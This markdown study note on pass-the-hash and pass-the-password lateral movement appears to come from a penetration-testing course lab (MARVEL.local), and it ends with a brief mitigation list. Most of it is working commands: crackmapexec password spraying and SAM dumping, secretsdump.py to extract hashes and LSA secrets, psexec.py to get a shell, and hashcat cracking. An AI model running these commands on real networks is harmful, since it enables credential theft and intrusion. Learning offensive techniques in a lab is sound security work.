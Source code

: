 # Pass the Hash / Pass the Password

If we crack a password and/or can dump the SAM hashes, we can leverage both for lateral movement in networks

### crackmapexec
Can use **`crackmapexec`**, can grab hashes and pass these or do the same with a password

```
sudo apt install crackmapexec
```

```
sudo crackmapexec smb 10.10.10.0/24 -u fcastle -d MARVEL.local -p Password1
```
Good to do password springs only on local accounts (less risk of getting locked out)
![pth-1](https://user-images.githubusercontent.com/87711310/209465215-b6d46b5b-23d9-4869-a2c3-4f0e130b2011.png)

We can also use an option to try and get (and dump the sam hashes)
```
sudo crackmapexec smb 10.10.10.0/24 -u fcastle -d MARVEL.local -p Password1 --sam
```

![pth-2](https://user-images.githubusercontent.com/87711310/209465218-eecf82e7-ee52-47f5-86ab-ca3c0e1b129c.png)

now we know that fcastle is admin on the 10.10.10.4 machine. 
Can span shell:

```
sudo psexec.py marvel/fcastle:Password1@10.10.10.4
```



### secretsdump.py
Can use **`secretsdump.py`** as part of the Impacket tool

```
sudo secretsdump.py marvel/fcastle:Password1@10.10.10.5
sudo secretsdump.py marvel/fcastle:Password1@10.10.10.4
```
![pth-3](https://user-images.githubusercontent.com/87711310/209465219-87098c21-aaca-41e0-b6b7-8bfa6ee680f2.png)

will dump not hust hashes but also, LSA secrets, DPAPI
We will focus on any local SAM hashes we get back. 

Put all hashes into a file (only user and admin ones)
These local hashes are NTLM (not ntlmv2) stored under module 1000
If we cannot crack them, we can try to pass the hashes around
Can only pass NTLM not NTLMv2 hashes around

```
sudo hashcat -m 1000 /usr/share/wordlists/rockyou.txt -O
```
-O for optimisation 
![pth-4](https://user-images.githubusercontent.com/87711310/209465220-db73c032-5f26-425d-b53c-54b109ef3db3.png)

Passing Frank Castle's hash around
```
sudo crackmapexec smb 10.10.10.0/24 -u "Frank Castle" -H 5835...0ef --local-auth
```
![pth-5](https://user-images.githubusercontent.com/87711310/209465221-c15f352d-e7bf-4b9a-b415-6a520a364e2b.png)

## Pass the Hass/Password Mitigation
Hard to completely prevent, but can make it more difficult for the attacker:

- Limit account re-use
	- Avoid re-using local admin password
	- Disable Guest and Administrator accounts
	- Limit who is a local administrator (least priviledge)
- Utilise strong passwords
	- The longer the better (>14 characters)
	- Avoid using common words
	- Long sentences are good
- Privilege Access Management (PAM)
	- Check out/in sensitive accounts when needed
	- Automatically rotate passwords on check out and check in
	- Limits pass attacks as hash/password is strong and constantly rotated


